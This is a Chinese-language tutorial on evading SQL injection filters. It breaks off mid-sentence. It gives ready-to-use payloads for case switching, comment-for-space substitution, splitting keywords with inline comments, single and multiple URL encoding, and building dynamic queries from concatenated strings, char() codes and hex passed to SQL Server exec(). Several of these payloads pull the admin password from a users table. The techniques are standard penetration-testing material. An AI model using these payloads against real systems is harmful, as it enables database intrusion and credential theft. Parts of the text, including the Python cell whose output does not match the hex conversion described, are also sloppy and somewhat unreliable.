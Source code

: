 ## 大小写变化
sql语言是不区分大小写额度，所以可以通过变换攻击字符中的大小写来避开他们，从而实现绕过前端。由于前端可能对关键字段如amd select union这些sql字段进行了过滤，所以如果上传了这些单词可定是不能通过过滤的，但是php，java，python这些都是区分大小写的高级语言。而sql是不区分大小写的。因此，打乱了某个字段的大小写，也就是可以变相绕过后台的过滤，从而直接到达数据库。
举例：当order被过滤的时候，使用Order可以跳过过滤。
1. 选择合适的大小写。如order被过滤，则使用Order
<img src="../pictures/cbctpf50vmm.png" width="600" />
查询出来一共有三个字段。
<img src="../pictures/8fa0d224hsw.png" width="600" />
2. 选择合适的大小写Union，从而跳过union字段的过滤。从而获取到数据。


## 使用sql注释
1. 使用注释代替空格

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


2. 使用内部连接注释
举例子：以下一句sql

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


可以改写成

```sql
/**/un/**/ion/**/se/**/lect/**/password/**/fr/**/om/**/tblUsers/**/wh/**/ere/**/uusername/**/li/**/ke/**/'admin'
```


.因此可以看出，我们可以使用内联注释来对关键字符进行拆分，从而实现越过过滤器

## 使用url编码

用URL编码来逃避过滤。有以下一条sql语句

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


如果过滤器对“/*”进行了过滤，那么这条语句肯定是不能通过，随意可以将其转换为

```sql
%2f%2a*/union%2f%2a*/select%2f%2a*/password%2f%2a*/from%2f%2a*/tblUsers%2f%2a*/where%2f%2a*/uusername%2f%2a*/like%2f%2a*/'admin'
```


对关键字符进行url编码，从而实现过滤。如果一次不行们可以进行两次甚至多次url编码，但只要记住只是对关键字符进行url编码。其中为什么多次url编码可以实现，这个是由于web应用有时候多次解码

unicode编码方式  
由于unicode编码方式的复杂性，所以解码器是啊按照最近匹配原则进行匹配unicode匹配编码。

## 使用动态查询执行


简单来说，就是将sql语句存储到一个变量中，然后执行这条sql语句。其中的关键之处在于sql语句是字符串形式，这也就代表着有多种方法可以构造字符串。
1. 连接字符串
Oracel ： 'sel'||'et' $\rightarrow$ 'select'
Mysql : 'sel''ect' $\rightarrow$ 'select'

2. 使用ascii码
'select' $\rightarrow$ char(83)+char(69)+char(76)+char(69)+char(67)+char(84)

3. 使用sql字符串的ascii十六进制来代替字符串
```sql
select password from tblUsers
```
SQL SERVER 也可以按照以下形式进行构造
```
DECLARE @query varchar(100);
SELECT @query = 0x53454C454354202A2046524F4D2074626C7573657273
exec(@query)
```
其中 0x53454C454354202A2046524F4D2074626C7573657273就是SELECT * FROM tblusers的16进制。


```{.python .input  n=8}
for i in "SELECT password FROM tblUsers":
    print(int(str(ord(i))),end="")
```

```{.json .output n=8}
[
 {
  "name": "stdout",
  "output_type": "stream",
  "text": "83697669678432112971151151191111141003270827977321169810885115101114115"
 }
]
```

## 使用空字符
由于过滤器一般都是cun
